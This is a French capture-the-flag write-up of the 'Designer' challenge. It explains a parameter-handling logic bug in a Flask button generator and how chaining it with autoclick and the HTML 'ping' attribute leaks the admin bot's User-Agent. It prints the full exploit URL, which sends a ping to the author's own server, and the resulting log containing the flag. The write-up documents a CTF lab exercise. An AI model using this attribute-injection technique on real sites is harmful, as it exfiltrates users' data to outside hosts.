


# Designer

**Auteur :** [Mika](https://x.com/bWlrYQ)
**Énoncé :**  
  
Un nouveau SaaS ennuyeux a publié son application inutile, qui devrait vous aider à générer des boutons/liens HTML sans avoir à écrire de code... Selon nous, il n'y a pas d'utilité spécifique à ce truc. Néanmoins, ils semblent récompenser les personnes qui peuvent trouver des vulnérabilités sur leurs produits avec des flags.  
**Difficulé :** Facile  
**Code Source :** Oui

> Résumé : Ce challenge consistait en l'exploitation d'un logic bug résultant en une injection HTML permettant d'injecter un attribut malicieux dans un tag HTML, permettant en la fuite de l'User-Agent de l'administrateur qui contenait le flag.

## Découverte du challenge



Le challenge est une UI permettant de générer des boutons avec un lien cliquable sans *trop* faire d'HTML/CSS. Le code source est mis à disposition. En regardant les sources, on constate que le flag du challenge est contenu dans l'User-Agent du bot qui joue ici le rôle d'admin. Il peut être atteint au travers d'un système de reporting de vulnérabilites. 

`designer/bot/bot.js`
```js
        if (process.env.FLAG) {
            await page.setUserAgent(process.env.FLAG);
        }
```

`designer/app/app.py`
```py
@app.route('/report', methods=['POST', 'GET'])
def report():
    if request.method == 'POST':
        if 'url' in request.form:
            url = request.form['url']
            if url == '':
                return render_template('report.html', error='Merci de renseigner une URL à signaler.')
            if not match(environ.get('URL_REGEX', r'https?:\/\/localhost:5000/'), url):
                return render_template('report.html', error=f'Vous ne pouvez uniquement entrer des URL à signaler commençant par : {environ.get("URL_REGEX", r"https?://localhost:5000/")}')
            else:
                try:
                    post(f'{environ.get('ADMIN_ENDPOINT', 'http://bot:8000/report')}', json={'url': url})
                except Exception as e:
                    return render_template('report.html', error=f"Impossible de signaler aux administrateurs. {e}")
                return render_template('report.html', success="Signalement effecttué, merci d'attendre que les administrateurs consultent votre signalement.")
        else:
            return render_template('report.html', error='Merci de renseigner une URL à signaler.')
    else:
        return render_template('report.html')
```

Notre objectif est donc de faire fuiter l'User-Agent de l'administrateur en réussissant à le rediriger sur un endpoint que l'on contrôle, cependant il n'est à priori pas possible de lui envoyer un lien autre que la plateforme de génération de boutons.

## Logic Bug

La fonctionnalité de génération du bouton permet d'ajouter des attributs personnalisés pour le bouton mais pas pour le lien. Il est possible de contourner cela dû à un bug de logique dans la fonction de génération du bouton :

`designer/app/app.py`
```py
    button_attributes = {
        "autofocus": 0,
        "disabled": 0,
        "commandfor": 0,
        "command": 0,
        "type": 0,
        "name": 0,
        "form": 0,
        "style": 0,
    }
    link_attributes = {
        "href": "http://localhost.local/",
        "rel": 0,
        "target": 0,
        "hreflang": 0,
    }

    if len(request.args) > 0:
        try:
            if 'autoclick' in request.args:
                autoclick = True

            for key, value in request.args.items():
                if key == 'autoclick':
                    continue
                elif key.startswith('CUSTOMATTR-'):
                    button_attributes[key.split('-')[1]] = value
                elif key in button_attributes:
                    if value=='none' and key in button_attributes:
                        button_attributes.pop(key)
                    else:
                        button_attributes[key] = value
                else:
                    if value=='none' and key in link_attributes:
                        link_attributes.pop(key)
                    else:
                        link_attributes[key] = value
        except Exception as e:
            return render_template('designer.html', error=e)
```

Une boucle for parsant toute la configuration du bouton passée au travers de paramètres GET commence par ignorer le paramètre `autoclick` pour plus tard. Ensuite si le paramètre commence par `CUSTOMATTR-` on considère que celui-ci doit aller dans les attributs du bouton. 

Si le paramètre est contenu dans les attributs du bouton, alors on remplace leur valeur dans le dictionnaire `button_attributes`. Sinon, les paramètres restants sont envoyés dans les attributs du lien car 'automatiquement considérés' comme étant liés à celui-ci. Il y a ici une erreur de logique qui fait que si un paramètre n'est prévu pour aucun des deux tags HTML (`button` et `a`) alors celui-ci sera envoyé dans les attributs du lien, permettant ainsi l'injection d'argument dans la balise `a` alors que ce n'est normalement pas prévu.

## Paramètre 'Autoclick'

Un paramètre 'autoclick' est présent, quand celui-ci est coché lors de la génération du lien alors une fois le bouton généré, celui-ci sera automatiquement cliqué. Cela peut être utile pour forcer l'administrateur à cliquer sur un bouton généré. 

## Attribut ping et injection HTML

La balise `<a>` possède un attribut intéressant `ping` ([voir la documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#ping)) qui permet de forcer le navigateur à faire une requête **POST** lorsque le lien est visité. Grâce au logic bug trouvé précedemment il est possible d'intégrer un attribut `ping` au lien généré forçant le navigateur de l'administrateur à visiter un endpoint contrôlé par l'attaquant.

## Flag

En chaînant les éléments précédemment trouvés, il est possible de construire la charge de génération suivante (en retirant le `CUSTOMATTR-` du lien): 

`http://designer:8000/designer?command=none&type=button&name=&form=&style=&ping=http%3A%2F%2Fbwlryq.net%2Fping&hreflang=none&rel=none&target=_self&autoclick=on`

En passant cette charge à l'administrateur, celui-ci cliquera automatiquement sur le lien et l'attribut ping permettra de récupérer son User-Agent qui contient le flag.



```
╭─root@rp /var/log/caddy
╰─➤  cat bwlryq.net.log | grep "ping"
{"level":"info","ts":1739738174.586391,"logger":"http.log.access.log2","msg":"handled request","request":{"remote_ip":"172.16.50.3","remote_port":"62158","client_ip":"172.16.50.3","proto":"HTTP/2.0","method":"GET","host":"blog.bwlryq.net","uri":"/ping","headers":{"Accept-Encoding":["gzip, deflate, br, zstd"],"Cache-Control":["max-age=0"],"Sec-Fetch-Dest":["empty"],"User-Agent":["BZHCTF{P1Ng_P0nG_1s_4w3s0m3_D0_Y0u_4Gr33?}"],"Ping-To":["http://localhost.local/"],"Sec-Fetch-Site":["cross-site"],"Priority":["u=4, i"],"Sec-Fetch-Mode":["no-cors"],"Ping-From":["http://designer:8000/designer?command=none&type=button&name=&form=&style=&ping=http%3A%2F%2Fbwlryq.net%2Fping&hreflang=none&rel=none&target=_self&autoclick=on"],"Accept":["*/*"],"Accept-Language":["en-US,en;q=0.9"]},"tls":{"resumed":false,"version":772,"cipher_suite":4867,"proto":"h2","server_name":"blog.bwlryq.net"}},"bytes_read":0,"user_id":"","duration":0.002355725,"size":0,"status":404,"resp_headers":{"Server":["Caddy"],"Alt-Svc":["h3=\":443\"; ma=2592000"]}}
```
Nous obtenons le flag : **BZHCTF{P1Ng_P0nG_1s_4w3s0m3_D0_Y0u_4Gr33?}**